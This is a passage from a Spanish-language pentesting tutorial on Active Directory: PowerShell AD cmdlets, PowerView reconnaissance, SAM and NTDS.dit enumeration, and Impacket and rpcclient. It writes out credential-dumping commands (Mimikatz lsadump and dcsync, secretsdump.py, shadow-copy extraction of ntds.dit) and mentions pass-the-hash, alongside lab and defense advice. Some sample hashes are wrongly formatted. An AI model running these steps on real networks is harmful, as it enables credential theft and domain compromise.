Get-ADGroupMember -Identity "AccesoNotas"
```

##### ✅ Ver última vez que inició sesión un usuario

```powershell
Get-ADUser -Identity luis.mendoza -Properties LastLogonDate | Select Name, LastLogonDate
```

---

### 📁 Otras herramientas útiles

- **ADExplorer (de Sysinternals)**: Visualiza AD como un árbol completo
- **AD Info**: Herramienta gráfica gratuita para generar reportes
- **LAPS**: Para ver y auditar contraseñas locales rotativas

---

### 🎯 EJEMPLO COMPLETO: Auditar usuarios y grupos

#### 🎓 Escenario:

Dominio: `escuela.local`
Objetivo: Obtener la siguiente información:

1. Listado de todos los usuarios
2. Qué usuarios están en el grupo `AccesoNotas`
3. Último inicio de sesión de `ana.lopez`

---

#### 🧰 Usando PowerShell:

##### 🔸 Paso 1: Abrir PowerShell como Administrador

```powershell
Import-Module ActiveDirectory
```

---

##### 🔸 Paso 2: Listar todos los usuarios

```powershell
Get-ADUser -Filter * | Select Name, SamAccountName
```

Resultado esperado:

```
Name              SamAccountName
----              ---------------
Luis Mendoza      luis.mendoza
Ana López         ana.lopez
Juan Ramos        juan.ramos
```

---

##### 🔸 Paso 3: Ver miembros del grupo `AccesoNotas`

```powershell
Get-ADGroupMember -Identity "AccesoNotas" | Select Name, SamAccountName
```

Resultado:

```
Name        SamAccountName
----        ---------------
Ana López   ana.lopez
Juan Ramos  juan.ramos
```

---

##### 🔸 Paso 4: Ver último inicio de sesión

```powershell
Get-ADUser -Identity ana.lopez -Properties LastLogonDate | Select Name, LastLogonDate
```

Resultado:

```
Name       LastLogonDate
----       --------------
Ana López  18/07/2025 08:45:22 a. m.
```

---

### ✅ Resultado final

| Usuario      | Grupo        | Último inicio de sesión   |
| ------------ | ------------ | ------------------------- |
| ana.lopez    | AccesoNotas  | 18/07/2025 08:45:22 a. m. |
| luis.mendoza | No pertenece | (no se encontró registro) |

---

### 🧪 ¿Dónde practicar?

Puedes practicar en un laboratorio local usando:

- 🧠 1 VM con **Windows Server 2022** (Controlador de dominio)
- 💻 1 VM con **Windows 10 Pro**
- Ambos unidos al dominio
- Instalas el módulo de Active Directory en PowerShell

---

[🔼](#índice)

---

## **289. PowerView**

### 🧠 ¿Qué es PowerView?

**PowerView** es una herramienta escrita en PowerShell que permite a un usuario (o atacante) **recopilar información sobre un dominio Active Directory desde dentro**.

🔍 Se utiliza para:

- Enumerar usuarios, grupos, OUs
- Ver relaciones entre usuarios y computadoras
- Detectar privilegios elevados (como administradores de dominio)
- Buscar sesiones activas
- Identificar rutas de ataque (como delegaciones, trust, ACLs)

📌 **Importante**: PowerView **no es malicioso**, pero es ampliamente usado por pentesters y atacantes porque permite **reconocer el terreno dentro de una red Windows**, por lo que también se considera una herramienta de **post-explotación**.

---

### ⚠️ ¿Quién lo usa?

- Pentesters (pruebas de penetración)
- Blue teams (defensores, auditores)
- Red teams (simulan ataques)
- Estudiantes de ciberseguridad

---

### 🔐 ¿Qué necesita para funcionar?

- Estar en una máquina unida al dominio (cliente o servidor)
- Usar una cuenta del dominio (no necesita ser admin)
- Tener PowerShell (idealmente versión 5.1)
- Desbloquear la ejecución de scripts si es necesario

---

### 🔧 ¿Cómo se instala PowerView?

PowerView no viene por defecto. Debes descargarlo manualmente. Aquí los pasos:

---

#### ✅ PASO 1: Descargar PowerView

PowerView es parte del proyecto **PowerSploit** (aunque puede usarse por separado):

🔗 GitHub original:

[https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)

1. Ve a la URL y descarga el archivo: `PowerView.ps1`
2. Llévalo a la máquina donde estás trabajando

💡 También puedes descargarlo en la máquina con este comando (desde PowerShell):

```powershell
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1" -OutFile "PowerView.ps1"
```

---

#### ✅ PASO 2: Permitir la ejecución de scripts

A veces, PowerShell no permite ejecutar scripts por seguridad. Para permitirlo temporalmente:

```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process
```

---

#### ✅ PASO 3: Importar PowerView

Ejecuta el script para cargarlo en tu sesión de PowerShell:

```powershell
Import-Module .\PowerView.ps1
```

✅ ¡Listo! Ahora puedes usar todos los comandos de PowerView.

---

### 📋 Comandos útiles y ejemplos fáciles de entender

---

#### 🔎 1. Ver información del dominio

```powershell
Get-NetDomain
```

📌 Devuelve el nombre del dominio, SID, etc.

---

#### 👥 2. Enumerar todos los usuarios del dominio

```powershell
Get-NetUser
```

🔍 Muestra una lista con todos los usuarios de Active Directory.

---

#### 👤 3. Ver información detallada de un usuario

```powershell
Get-NetUser -UserName ana.lopez
```

📝 Muestra propiedades como el `LastLogon`, `pwdLastSet`, `memberOf`, etc.

---

#### 👪 4. Enumerar todos los grupos del dominio

```powershell
Get-NetGroup
```

---

#### 🧑‍🤝‍🧑 5. Ver miembros de un grupo específico

```powershell
Get-NetGroupMember -GroupName "Domain Admins"
```

🔐 Útil para saber **quién tiene privilegios de administrador de dominio**.

---

#### 🏢 6. Ver todas las Unidades Organizativas (OUs)

```powershell
Get-NetOU
```

---

#### 🖥️ 7. Ver todas las computadoras del dominio

```powershell
Get-NetComputer
```

💡 Bueno para identificar todos los hosts disponibles.

---

#### 🔍 8. Buscar sesiones activas de usuarios

```powershell
Find-UserField -SearchField description -SearchTerm "admin"
```

Esto busca usuarios con "admin" en su descripción.

---

#### 🛠️ 9. Enumerar sesiones activas en otras computadoras (si tienes permisos)

```powershell
Get-NetSession -ComputerName PC-ALUMNO01
```

---

### 🎯 EJEMPLO COMPLETO

#### Escenario:

Estás dentro del dominio `escuela.local` con un usuario del dominio normal (ej. `luis.mendoza`) y quieres:

1. Ver todos los usuarios del dominio
2. Identificar quiénes son los administradores del dominio
3. Ver en qué computadora está iniciada la sesión de `ana.lopez`

---

#### 🔧 Paso a paso con PowerView

```powershell
# 1. Importar PowerView
Import-Module .\PowerView.ps1

# 2. Ver todos los usuarios
Get-NetUser

# 3. Ver miembros de Domain Admins
Get-NetGroupMember -GroupName "Domain Admins"

# 4. Buscar sesiones en computadoras donde podría estar "ana.lopez"
Get-NetComputer | ForEach-Object {Get-NetSession -ComputerName $_.Name} | Where-Object {$_.UserName -like "*ana.lopez*"}
```

---

### ✅ Resultado final esperado

| Acción                     | Resultado esperado                       |
| -------------------------- | ---------------------------------------- |
| Ver usuarios               | Lista de todos los usuarios del dominio  |
| Ver admins                 | Muestra miembros de "Domain Admins"      |
| Buscar sesión de ana.lopez | Devuelve la máquina donde está conectada |

---

### 🧪 ¿Dónde practicar?

Crea un **laboratorio con VirtualBox**:

- 🧠 1 VM con **Windows Server 2022** (Controlador de dominio)
- 💻 1 o 2 VMs con **Windows 10 Pro** (clientes del dominio)
- Únelos al dominio
- Usa una de las VMs para importar y ejecutar PowerView

---

### 🔐 Seguridad y defensa

Como PowerView también lo usan atacantes:

- 📜 Monitorea el uso de `PowerShell` y `Import-Module`
- 🛡️ Usa herramientas como **Sysmon**, **Defender ATP**, **ELK**, **Splunk**
- 🧰 Considera bloquear scripts no firmados

---

[🔼](#índice)

---

## **290. Enumeración local de SAM**

### 🔐 ¿Qué es la SAM?

La **SAM (Security Account Manager)** es una base de datos **local** en sistemas Windows que almacena:

- Los nombres de usuario locales
- Las contraseñas **en forma de hash**
- Información de grupos y privilegios

🧠 **Importante**:

SAM solo contiene cuentas **locales**, no de dominio (esas están en Active Directory).

La SAM se encuentra en:

```
C:\Windows\System32\config\SAM
```

Pero **no se puede acceder directamente** porque está protegida por el sistema operativo (bloqueada cuando Windows está activo).

---

### 🎯 ¿Qué es la "enumeración local de SAM"?

Es el proceso de **leer y extraer información de la base de datos SAM local**, como:

- Qué usuarios existen
- Qué grupos locales existen
- Qué privilegios tienen
- Hashes de contraseñas (si tienes privilegios de SYSTEM)

Esta técnica se usa frecuentemente en **auditorías de seguridad, pentesting o forense digital**.

---

### ⚠️ Requisitos para enumerar SAM

- Acceso **local al sistema Windows**
- **Privilegios de administrador** o **SYSTEM**
- Herramientas como: `cmd`, `PowerShell`, `Mimikatz`, `samdump2`, `pwdump`, etc.

---

### ✅ ¿Cómo se puede enumerar la SAM?

---

#### 🔸 1. Enumerar usuarios locales (sin acceder directamente a la SAM)

Puedes ver los usuarios y grupos locales con estos comandos:

##### 📍 En CMD:

```cmd
net user
```

Resultado:

```
Nombre de usuario
---------------
Administrador
Invitado
Luis
```

##### 📍 Para ver los grupos:

```cmd
net localgroup
```

---

#### 🔸 2. Enumerar miembros de un grupo

```cmd
net localgroup Administradores
```

---

#### 🔸 3. Acceder directamente a la SAM (extrayendo hashes)

Aquí ya entramos al nivel de **post-explotación** o **análisis forense**.

##### ✅ Opción 1: Usando **Mimikatz**

Mimikatz permite extraer hashes de contraseñas de la SAM.

1. Abre Mimikatz como admin
2. Ejecuta:

```txt
privilege::debug
token::elevate
lsadump::sam
```

Esto devuelve:

- Usuarios locales
- Hashes de contraseñas
- RID (Relative IDs)

📌 Ejemplo de salida:

```
RID 500 - Administrator
LM : aad3b435b51404eeaad3b435b51404ee
NTLM : 31d6cfe0d16ae931b73c59d7e0c089c0
```

---

##### ✅ Opción 2: Desde otra máquina (extracción offline)

Si tienes acceso al disco de otra máquina (por ejemplo, montado desde Linux o en análisis forense), puedes usar:

```bash
samdump2 SYSTEM SAM
```

Esto extrae hashes directamente del archivo `SAM` usando también el `SYSTEM`, porque este contiene la clave de cifrado.

---

### 📌 ¿Para qué sirve enumerar la SAM?

- Auditar qué usuarios existen en una máquina
- Detectar cuentas inseguras (como `usuario: usuario`)
- Obtener hashes para ataques de contraseña offline (como **crackearlos** con Hashcat)
- Saber quién tiene privilegios de administrador
- Detectar cuentas ocultas o sospechosas

---

### 🧪 EJEMPLO COMPLETO

#### 🎓 Escenario:

Estás haciendo auditoría en una laptop con Windows 10. Tienes permisos de administrador. Quieres:

1. Ver los usuarios locales
2. Ver quiénes son administradores
3. Extraer los hashes de la SAM con Mimikatz

---

#### 🔧 Paso a paso

##### 🔸 1. Ver los usuarios locales

```cmd
net user
```

Resultado:

```
Administrador
Invitado
juan.local
```

---

##### 🔸 2. Ver miembros del grupo Administradores

```cmd
net localgroup Administradores
```

Resultado:

```
Administrador
juan.local
```

---

##### 🔸 3. Extraer la SAM con Mimikatz

Desde PowerShell o CMD elevado:

```cmd
mimikatz.exe
```

Y luego en la consola de Mimikatz:

```txt
privilege::debug
token::elevate
lsadump::sam
```

Resultado:

```
RID 501 - juan.local
LM : aad3b435b51404eeaad3b435b51404ee
NTLM : 7c4a8d09ca3762af61e59520943dc26494f8941b
```

Ese es el **hash NTLM de la contraseña** de juan.local.

---

### 🛡️ ¿Cómo proteger la SAM?

- Usar contraseñas fuertes
- Limitar el uso de cuentas de administrador local
- Activar **LSASS Protection** (Credential Guard)
- Monitorear herramientas como `mimikatz.exe` o `samdump2`
- Activar BitLocker (cifra disco, protege SAM incluso offline)

---

### 🧰 Herramientas para practicar

- **Mimikatz** (Windows): [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)
- **Kali Linux**: incluye `samdump2`, `pwdump`, etc.
- **Windows VM** para pruebas

---

[🔼](#índice)

---

## **291. Enumeración remota de SAM**

### 📌 ¿Qué es la SAM?

La **SAM (Security Account Manager)** es una base de datos en sistemas Windows que almacena:

- Usuarios locales
- Contraseñas (como hashes)
- Grupos locales y privilegios

🔐 Está ubicada en:

```
C:\Windows\System32\config\SAM
```

Pero está protegida por el sistema y **no puede leerse directamente mientras Windows está en ejecución**.

---

### 🤔 ¿Y qué es la "enumeración remota de SAM"?

Se refiere a **intentar obtener información de la SAM desde otra máquina en la red**, es decir, **acceder a cuentas de usuario locales, grupos, etc., sin estar físicamente en la máquina**.

🔍 Este tipo de técnica se usa en:

- Pentesting de redes internas
- Reconocimiento lateral
- Auditorías de seguridad
- Post-explotación

---

### 🛑 ¿Es posible enumerar remotamente la SAM?

⚠️ Directamente no. La SAM como archivo **no puede copiarse ni leerse remotamente** sin acceso de **administrador o SYSTEM**, **pero sí se puede consultar la información que expone el sistema a través de ciertos servicios** como:

- **SMB (puerto 445)**
- **RPC (puerto 135)**
- **WinRM (puerto 5985)**
- **WMI**

Y a través de esas interfaces podemos obtener:

- Usuarios locales de la máquina remota
- Grupos locales y sus miembros
- SID de usuarios
- Hashes (solo si tienes privilegios altos)

---

### 🧰 Herramientas comunes para enumeración remota

| Herramienta    | Descripción                                              |
| -------------- | -------------------------------------------------------- |
| `CrackMapExec` | Framework para pentesting en redes Windows (muy usado)   |
| `smbclient`    | Cliente SMB de Linux para navegar carpetas compartidas   |
| `rpcclient`    | Cliente RPC para conectarse al servicio SAMR             |
| `PsExec`       | Herramienta de Microsoft para ejecutar comandos remotos  |
| `wmic`         | Ejecuta comandos WMI remotamente (requiere credenciales) |
| `impacket`     | Colección de scripts en Python para protocolos Windows   |

---

### 🔧 ¿Qué se necesita para enumerar la SAM remotamente?

1. 🖥 Acceso a la red donde está el equipo objetivo
2. 🔐 Credenciales válidas (preferiblemente administrador local o dominio)
3. ⚙️ Herramientas como `rpcclient`, `CrackMapExec`, `wmic`, `PsExec`, etc.

---

### ✅ Ejemplo práctico con `rpcclient` (Linux / Kali)

#### 🎓 Escenario

Estás en una red interna, y sabes que el equipo `WIN10-PC` tiene habilitado SMB. Tienes las credenciales del usuario local `juan:contraseña123`.

---

#### 🔹 Paso 1: Conéctate con `rpcclient`

```bash
rpcclient -U juan%contraseña123 WIN10-PC
```

Una vez dentro del prompt de `rpcclient`, puedes ejecutar comandos.

---

#### 🔹 Paso 2: Enumerar usuarios locales

```bash
enumdomusers
```

📥 Ejemplo de salida:

```
user:[Administrador] rid:[0x1f4]
user:[juan] rid:[0x1f5]
```

---

#### 🔹 Paso 3: Ver información detallada de un usuario

```bash
queryuser 0x1f5
```

Muestra información como:

- Último inicio de sesión
- Flags de cuenta
- SID
- Fecha de expiración de contraseña

---

#### 🔹 Paso 4: Enumerar grupos locales

```bash
enumdomgroups
```

Y para ver miembros del grupo:

```bash
querygroup 0x200
```

---

### ✅ Otro ejemplo: usar `CrackMapExec` (CME)

Supongamos que estás en Kali Linux y tienes IP de una máquina Windows: `192.168.1.10`

Con usuario `admin` y contraseña `Admin123`

```bash
cme smb 192.168.1.10 -u admin -p Admin123 --users
```

📋 Esto te mostrará todos los usuarios del SAM local de la máquina.

También puedes hacer:

```bash
cme smb 192.168.1.10 -u admin -p Admin123 --local-groups
```

---

### ✅ Otro ejemplo: usar `wmic` desde Windows

Desde tu equipo con acceso a la red:

```cmd
wmic /node:"192.168.1.10" /user:"admin" /password:"Admin123" useraccount get name,sid
```

---

### 🔒 ¿Qué puedes obtener?

| Acción                 | Resultado posible                                    |
| ---------------------- | ---------------------------------------------------- |
| Enumerar usuarios      | Lista de usuarios locales                            |
| Ver grupos             | Lista de grupos locales                              |
| Ver miembros de grupos | Relaciones de usuarios-grupos                        |
| Ver SID                | SID de cada usuario (puede ayudar a detectar admins) |

---

### 🛡️ ¿Cómo defenderse de la enumeración remota?

- 🔐 Desactivar cuentas locales innecesarias
- 🔒 Limitar el acceso SMB y RPC desde hosts no autorizados
- 🔄 Cambiar contraseñas locales regularmente
- 🛡️ Usar firewalls para bloquear puertos como 445, 135
- 🧩 Habilitar políticas de auditoría y detección

---

### 🎯 EJEMPLO COMPLETO

#### 🎓 Escenario realista

Estás haciendo un pentest interno. Estás conectado a una red corporativa. Detectas que la máquina `192.168.100.5` tiene SMB abierto.

Tienes credenciales locales: `soporte:soporte123`.

---

#### 🔧 Paso a paso con `rpcclient`

```bash
rpcclient -U soporte%soporte123 192.168.100.5
```

Dentro del prompt de `rpcclient`:

```bash
> enumdomusers
> queryuser 0x1f5
> enumdomgroups
> querygroup 0x200
```

Este proceso te permite ver usuarios locales, grupos, relaciones, etc.

---

### ✅ Resultado final esperado

- 🧑 Usuarios: `Administrador`, `soporte`, `cliente1`
- 👥 Grupos: `Administradores`, `Usuarios`, `Invitados`
- 🔐 Miembros: `soporte` está en el grupo `Administradores`

---

[🔼](#índice)

---

## **292. Impacket y Rpcclient**

### 🧠 ¿Qué es Impacket?

**Impacket** es un conjunto de herramientas y librerías en Python diseñadas para trabajar con **protocolos de red de Microsoft**, como:

- SMB (compartición de archivos)
- RPC (Remote Procedure Call)
- Kerberos (autenticación en dominios)
- LDAP, RDP, MSSQL, etc.

#### 🔍 ¿Para qué sirve?

Te permite hacer:

- Enumeración de usuarios y grupos
- Ejecución remota de comandos
- Dump de credenciales
- Ataques tipo Pass-the-Hash
- Relays NTLM, Kerberoasting, etc.

---

### 🧠 ¿Qué es Rpcclient?

**rpcclient** es una herramienta de línea de comandos que viene con la suite de Samba en Linux.
Permite conectarte al servicio **SAMR** (Remote SAM) de una máquina Windows, vía **RPC**, y **consultar usuarios, grupos y privilegios**.

#### 🔍 ¿Para qué sirve?

Sirve para:

- Enumerar usuarios y grupos en un equipo Windows
- Ver SIDs, RIDs, privilegios
- Autenticar remotamente vía SMB/RPC

---

### 🛠️ INSTALACIÓN

---

#### ✅ 1. Instalar **Impacket**

##### 🔹 En Kali Linux (ya viene preinstalado):

```bash
sudo apt update
sudo apt install impacket-scripts
```

##### 🔹 En cualquier Linux con Python 3:

```bash
git clone https://github.com/fortra/impacket.git
cd impacket
pip install .
```

Esto te instala scripts como:

- `lookupsid.py`
- `samrdump.py`
- `secretsdump.py`
- `wmiexec.py`
- `smbexec.py`
- `ntlmrelayx.py`
- y más…

📍 Puedes verlos con:

```bash
ls examples/
```

---

#### ✅ 2. Instalar **rpcclient**

##### 🔹 En Kali Linux o Debian:

```bash
sudo apt install smbclient
```

`rpcclient` viene incluido en ese paquete.

##### 🔹 En Windows (con WSL):

Instala Ubuntu en WSL y luego:

```bash
sudo apt install smbclient
```

---

### 🧪 USO BÁSICO

---

#### 🔧 1. **Enumerar usuarios con `rpcclient`**

##### 📍 Supón que tienes:

- IP de máquina víctima: `192.168.1.10`
- Usuario: `soporte`
- Contraseña: `soporte123`

##### 🔹 Comando:

```bash
rpcclient -U soporte%soporte123 192.168.1.10
```

🔐 Si te conecta, entrarás al prompt de `rpcclient>`

##### 🔹 Comandos útiles:

- Ver usuarios:

  ```bash
  enumdomusers
  ```

- Ver grupos:

  ```bash
  enumdomgroups
  ```

- Ver detalles de usuario:

  ```bash
  queryuser 0x1f5
  ```

---

#### 🔧 2. **Enumerar usuarios con `lookupsid.py` de Impacket**

Este script intenta resolver SIDs a usuarios y grupos de una máquina Windows.

##### 🔹 Sintaxis:

```bash
lookupsid.py soporte:soporte123@192.168.1.10
```

📋 Resultado típico:

```
[*] Brute forcing SIDs at 192.168.1.10
S-1-5-21-...-500 Administrador
S-1-5-21-...-501 Invitado
S-1-5-21-...-1001 soporte
```

Con esto ves qué usuarios existen en esa máquina.

---

#### 🔧 3. **Extraer hashes con `secretsdump.py` (Impacket)**

Si tienes acceso de administrador, puedes volcar los hashes de la SAM remota:

```bash
secretsdump.py soporte:soporte123@192.168.1.10
```

📥 Resultado:

```
Administrator:500:aad3b435...:8846f7ea...:::
soporte:1001:aad3b435...:7c4a8d09...:::
```

Estos son los **hashes NTLM**, que puedes crackear con `Hashcat`.

---

### 📦 EJEMPLO COMPLETO

---

#### 🎓 Escenario:

Tienes acceso a la red interna. Encuentras una máquina Windows con IP `192.168.1.15`.
Tienes credenciales:

- Usuario: `admin_local`
- Contraseña: `Admin123`

Quieres:

✅ Ver los usuarios de la máquina

✅ Ver sus SID y nombres

✅ Extraer hashes de SAM

---

##### 🔧 Paso 1: Usar `rpcclient`

```bash
rpcclient -U admin_local%Admin123 192.168.1.15
```

Comandos dentro:

```bash
rpcclient> enumdomusers
rpcclient> queryuser 0x1f5
rpcclient> enumdomgroups
```

---

##### 🔧 Paso 2: Usar Impacket - `lookupsid.py`

```bash
lookupsid.py admin_local:Admin123@192.168.1.15
```

Verás algo como:

```
S-1-5-21-11223344-500 Administrator
S-1-5-21-11223344-1000 admin_local
S-1-5-21-11223344-1001 juan
```

---

##### 🔧 Paso 3: Dump con `secretsdump.py`

```bash
secretsdump.py admin_local:Admin123@192.168.1.15
```

Resultado:

```
[*] Dumping local SAM hashes (Registry)
Administrator:500:aad3...:8846f7ea...:::
juan:1001:aad3...:7c4a8d09...:::
```

🔐 Hashes obtenidos para crackear o Pass-the-Hash

---

### 🛡️ ¿Cómo defenderse?

- Restringir acceso SMB y RPC (puertos 445 y 135)
- No compartir cuentas locales con misma contraseña
- Usar firewalls internos
- Activar Windows Defender Credential Guard
- Auditar intentos de conexión remota

---

### ✅ RESUMEN FINAL

| Herramienta      | Función principal                           |
| ---------------- | ------------------------------------------- |
| `rpcclient`      | Enumerar usuarios y grupos vía SAMR/RPC     |
| `lookupsid.py`   | Enumerar SID -> usuario remotamente vía SMB |
| `secretsdump.py` | Extraer hashes del SAM (si eres admin)      |

---

[🔼](#índice)

---

## **293. AD Module**

### 🧠 ¿Qué es el **AD Module**?

El **Active Directory Module for Windows PowerShell** es un conjunto de **cmdlets (comandos de PowerShell)** que te permite **administrar objetos de Active Directory** de forma automatizada, rápida y remota.

#### 🔧 ¿Qué puedes hacer con él?

- Crear, modificar y eliminar usuarios y grupos
- Crear Unidades Organizativas (OUs)
- Consultar políticas, dominios y propiedades
- Restablecer contraseñas
- Mover usuarios entre OUs
- Filtrar objetos con condiciones específicas

---

### 🧰 Requisitos previos

- Tener un **Controlador de Dominio (DC)** ya instalado.
- Usar un sistema **Windows Server (2012/2016/2019/2022)** o un **cliente con RSAT (Windows 10/11 Pro o Enterprise)**.

---

### ⚙️ ¿Cómo instalar el AD Module?

---

#### ✅ En **Windows Server**:

El módulo ya viene con el **rol de Active Directory**. Solo asegúrate de tener instalada la función **AD DS** y ya estará disponible.

Puedes verificarlo con:

```powershell
Get-Module -ListAvailable ActiveDirectory
```

Y cargarlo con:

```powershell
Import-Module ActiveDirectory
```

---

#### ✅ En **Windows 10/11 (cliente)**:

1. Abre PowerShell **como administrador**.
2. Ejecuta:

```powershell
Add-WindowsCapability -Online -Name "Rsat.ActiveDirectory.DS-LDS.Tools~~~~0.0.1.0"
```

3. Verifica que esté instalado:

```powershell
Get-Command -Module ActiveDirectory
```

4. Luego, impórtalo:

```powershell
Import-Module ActiveDirectory
```

---

### 🔑 COMANDOS PRINCIPALES

Aquí tienes los cmdlets más usados y fáciles de entender:

| Cmdlet                     | Descripción             |
| -------------------------- | ----------------------- |
| `Get-ADUser`               | Ver usuarios            |
| `New-ADUser`               | Crear usuario           |
| `Set-ADUser`               | Modificar usuario       |
| `Remove-ADUser`            | Eliminar usuario        |
| `Get-ADGroup`              | Ver grupos              |
| `New-ADGroup`              | Crear grupo             |
| `Add-ADGroupMember`        | Agregar usuario a grupo |
| `New-ADOrganizationalUnit` | Crear OU                |
| `Move-ADObject`            | Mover objeto a otra OU  |

---

### 📘 EJEMPLOS FÁCILES

---

#### 🔎 1. **Ver todos los usuarios del dominio**

```powershell
Get-ADUser -Filter * | Select Name,SamAccountName
```

#### 👤 2. **Crear un usuario nuevo**

```powershell
New-ADUser -Name "Carlos Gomez" `
            -GivenName "Carlos" `
            -Surname "Gomez" `
            -SamAccountName "cgomez" `
            -UserPrincipalName "cgomez@midominio.local" `
            -AccountPassword (ConvertTo-SecureString "P@ssw0rd123" -AsPlainText -Force) `
            -Enabled $true `
            -Path "OU=Soporte,DC=midominio,DC=local"
```

#### 🔐 3. **Resetear contraseña de un usuario**

```powershell
Set-ADAccountPassword -Identity "cgomez" -NewPassword (ConvertTo-SecureString "Nuev0P@ss!" -AsPlainText -Force)
```

#### 📁 4. **Crear una OU (Unidad Organizativa)**

```powershell
New-ADOrganizationalUnit -Name "Soporte" -Path "DC=midominio,DC=local"
```

#### 👥 5. **Crear un grupo y añadir usuarios**

```powershell
New-ADGroup -Name "SoporteTI" -GroupScope Global -Path "OU=Grupos,DC=midominio,DC=local"
Add-ADGroupMember -Identity "SoporteTI" -Members cgomez
```

---

### 🧪 EJEMPLO COMPLETO PRÁCTICO

---

#### 🎯 Objetivo:

Automatizar la creación de un departamento llamado **Soporte**, con:

- Una **OU** llamada `Soporte`
- Un usuario llamado **Juan Perez**
- Un grupo llamado **SoporteTI**
- Agregar a Juan al grupo

---

#### 🧾 Script completo:

```powershell
# Importar el módulo
Import-Module ActiveDirectory

# Crear una OU
New-ADOrganizationalUnit -Name "Soporte" -Path "DC=midominio,DC=local"

# Crear usuario
New-ADUser -Name "Juan Perez" `
            -GivenName "Juan" `
            -Surname "Perez" `
            -SamAccountName "jperez" `
            -UserPrincipalName "jperez@midominio.local" `
            -AccountPassword (ConvertTo-SecureString "Jp3r3z@2024" -AsPlainText -Force) `
            -Enabled $true `
            -Path "OU=Soporte,DC=midominio,DC=local"

# Crear grupo
New-ADGroup -Name "SoporteTI" `
            -GroupScope Global `
            -Path "OU=Soporte,DC=midominio,DC=local"

# Agregar usuario al grupo
Add-ADGroupMember -Identity "SoporteTI" -Members "jperez"
```

---

✅ Ahora tienes:

- Una estructura limpia en AD
- Un usuario y grupo configurados
- Todo desde PowerShell y el módulo de Active Directory

---

### 📌 CONCLUSIÓN

El módulo de AD para PowerShell es **fundamental para administradores de dominio**. Permite automatizar tareas y ahorrar tiempo, además de facilitar auditorías, creación masiva de objetos y scripting.

---

[🔼](#índice)

---

## **294. Enumeración de NTDS**

### 🔍 ¿Qué es NTDS.dit?

`NTDS.dit` (NT Directory Services) es el **archivo base de datos principal de Active Directory**. Contiene:

- Todos los **usuarios del dominio**
- Sus **hashes de contraseña**
- Grupos, OUs, GPOs
- Información de replicación, atributos, etc.

📍 **Ubicación por defecto en el DC (Controlador de Dominio):**

```
C:\Windows\NTDS\NTDS.dit
```

🧠 **IMPORTANTE**:

- Solo existe en los **Controladores de Dominio (DC)**.
- Está protegido por el sistema. No se puede copiar directamente si está en uso.
- Para extraerlo se requiere acceso de **administrador o SYSTEM**.

---

### 🎯 ¿Qué es la enumeración de NTDS.dit?

Enumerar el NTDS significa **extraer información sensible** de ese archivo, como:

- Usuarios del dominio
- Hashes de contraseñas
- Delegaciones y permisos
- Relación entre objetos

Esta tarea es común en **auditorías, pentesting avanzado o análisis forense**.

---

### 🧰 ¿Qué necesitas?

- Acceso con privilegios **de administrador/SYSTEM** al controlador de dominio.
- Herramientas como:

  - `ntdsutil`
  - `Volume Shadow Copy`
  - `secretsdump.py` (Impacket)
  - `Mimikatz`
  - `DSInternals`

---

### ⚙️ MÉTODOS PARA EXTRAER NTDS.dit

---

#### ✅ 1. **Usando Volume Shadow Copy (copiar el archivo)**

Ya que `NTDS.dit` está bloqueado en uso, usamos VSS para hacer una copia.

```cmd
vssadmin create shadow /for=C:
```

Luego, buscamos el path del shadow:

```
\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

Y copiamos los archivos necesarios:

```cmd
copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit" C:\temp\
copy "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM" C:\temp\
```

---

#### ✅ 2. **Usando secretsdump.py (Impacket)**

Una de las herramientas más prácticas para la enumeración de `NTDS.dit` es [**Impacket**](https://github.com/fortra/impacket), específicamente el script `secretsdump.py`.

##### ▶️ Modo 1: Desde archivo `ntds.dit` + SYSTEM

```bash
secretsdump.py -system SYSTEM -ntds ntds.dit LOCAL
```

Esto extrae los **hashes de todas las cuentas del dominio**.

##### ▶️ Modo 2: Desde el DC en vivo (remoto)

```bash
secretsdump.py administrator:'Password123'@10.0.0.1
```

Esto conecta al DC y saca los hashes directamente desde el servicio LSASS y NTDS.

---

#### ✅ 3. **Con Mimikatz (desde PowerShell en el DC)**

```powershell
privilege::debug
lsadump::lsa
lsadump::sam
lsadump::dcsync /domain:midominio.local /user:Administrador
```

El comando `dcsync` imita una replicación de DC y extrae el hash del usuario administrador del dominio.

---

### 🧪 EJEMPLO COMPLETO

---

#### 🎓 Escenario:

Tienes acceso al **Controlador de Dominio Windows Server 2019** como administrador. Quieres extraer los usuarios y sus hashes usando Impacket desde Kali Linux.

---

#### 🔧 Paso 1: Instalar Impacket en Kali

```bash
sudo apt update
sudo apt install impacket-scripts -y
```

Verifica:

```bash
secretsdump.py -h
```

---

#### 🔧 Paso 2: Ejecutar secretsdump remotamente

Supongamos que:

- IP del DC: `192.168.1.100`
- Usuario admin: `Administrador`
- Contraseña: `P@ssw0rd123`
- Dominio: `empresa.local`

```bash
secretsdump.py empresa.local/Administrador:'P@ssw0rd123'@192.168.1.100
```

📌 Resultado típico:

```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash::)
empresa.local\Administrador:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
empresa.local\juan:1001:aad3b435b51404eeaad3b435b51404ee:8d969eef6ecad3c29a3a629280e686cf:::
```

Ahora tienes los **hashes NTLM** de todos los usuarios del dominio.

---

### 🧠 ¿Y qué hago con los hashes?

- Pueden usarse para **ataques Pass-the-Hash**
- Se pueden crackear con **Hashcat** u **John the Ripper**
- Se usan para simular ataques de post-explotación y auditoría de contraseñas débiles

---

### 🛡️ ¿Cómo proteger el NTDS.dit?

- Activar **Credential Guard** y **LSASS Protection**
- Evitar el uso de cuentas con privilegios elevados innecesarios
- Supervisar y auditar comandos como `secretsdump.py` y `vssadmin`
- Aplicar el principio de **mínimos privilegios**
- Deshabilitar VSS si no se necesita
- Activar BitLocker en discos del DC

---

### 📌 RESUMEN

| Elemento                  | Descripción                                    |
| ------------------------- | ---------------------------------------------- |
| NTDS.dit                  | Base de datos de Active Directory              |
| Contiene                  | Usuarios, contraseñas (hashes), grupos, OUs    |
